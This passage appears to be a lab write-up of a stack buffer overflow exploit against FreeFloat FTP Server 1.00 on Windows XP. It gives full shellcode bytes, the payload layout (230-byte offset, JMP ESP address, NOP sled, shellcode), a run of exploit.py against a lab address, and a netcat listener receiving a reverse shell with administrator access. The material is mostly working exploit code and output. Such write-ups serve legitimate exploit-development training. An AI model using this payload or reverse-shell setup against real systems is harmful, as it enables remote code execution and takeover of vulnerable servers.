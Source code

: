 ```bash
shellcode += b"\x37\x57\x80\xa6\x5f\xe0\xf3\x94\xc0\x5a\x9b"
shellcode += b"\x94\x89\x44\x5c\xda\xa3\x31\xf2\x25\x4c\x42"
shellcode += b"\xdb\xe1\x18\x12\x73\xc3\x20\xf9\x83\xec\xf4"
shellcode += b"\xae\xd3\x42\xa7\x0e\x83\x22\x17\xe7\xc9\xac"
shellcode += b"\x48\x17\xf2\x66\xe1\xb2\x09\xe1\xce\xeb\x33"
shellcode += b"\x7b\xa6\xe9\x33\x5c\x38\x67\xd5\xc8\x56\x21"
shellcode += b"\x4e\x65\xce\x68\x04\x14\x0f\xa7\x61\x16\x9b"
shellcode += b"\x44\x96\xd9\x6c\x20\x84\x8e\x9c\x7f\xf6\x19"
shellcode += b"\xa2\x55\x9e\xc6\x31\x32\x5e\x80\x29\xed\x09"
shellcode += b"\xc5\x9c\xe4\xdf\xfb\x87\x5e\xfd\x01\x51\x98"
shellcode += b"\x45\xde\xa2\x27\x44\x93\x9f\x03\x56\x6d\x1f"
shellcode += b"\x08\x02\x21\x76\xc6\xfc\x87\x20\xa8\x56\x5e"
shellcode += b"\x9e\x62\x3e\x27\xec\xb4\x38\x28\x39\x43\xa4"
shellcode += b"\x99\x94\x12\xdb\x16\x71\x93\xa4\x4a\xe1\x5c"
shellcode += b"\x7f\xcf\x01\xbf\x55\x3a\xaa\x66\x3c\x87\xb7"
shellcode += b"\x98\xeb\xc4\xc1\x1a\x19\xb5\x35\x02\x68\xb0"
shellcode += b"\x72\x84\x81\xc8\xeb\x61\xa5\x7f\x0b\xa0"
```
Note the usage of EXITFUNC to avoid a server crash.  

Exploit is constructed as [OFFSET][JUMP ESP][NOPSLED][SHELLCODE] as seen below.
```python
payload = 'A' * 230 + jmpesp + '\x90' * 32 + shellcode
```

### 5. Exploit
Run the exploit.
```bash
┌──(kali㉿kali)-[]-[~/Documents/bof]
└─$ ./exploit.py                                                                                                                                                       
[+] Opening connection to 192.168.34.148 on port 21: Done
[*] 220 FreeFloat Ftp Server (Version 1.00).
[*] 331 Password required for AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'��w���������������������������������պ��\x10�t$�]1ɱR���1U\x13���vp5    �\x15\xbf\xbd�\x15\xbf\xbde襯+\x05�ߞ#*�\x17\xbf\xbd
    ߨ�m~+���\x12��So5�
    ���9�0�rW1m�V\x10X�Í9���\x04\xbf\xbdP �D�x����\x0e\xbf\xbd:r�2�����J\x16\\x18\xbf\xbd�\�WvR�
    �w=�k����\x05\xbf\xbd�\x1fV}\x069�X��&\x13�Z~V7W��_���Z���D\ڣ1�%LB��\x18s� ������B�\x0e\xbf\xbd"\x17\xbf\xbdɬH\x17\xbf\xbdf�    ���3{��3\8g��V!Ne�h\x04\x0f\xbf\xbda\x16\xbf\xbdD��l ���\x7f�\x19\xbf\xbdU��12^�)�    Ŝ����^�Q�Eޢ'D��\x03m\x1f!v��� �V^�b>'�8(9C���\x12\xbf\xbd\x16��J�\\x7f��U:�f<������\x1a�5h�r����a�\x7f
    �.
```
Get a shell.
```shell
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999                                                                                                                                                                                                                                    1 ⨯
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.148] 1056
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

```
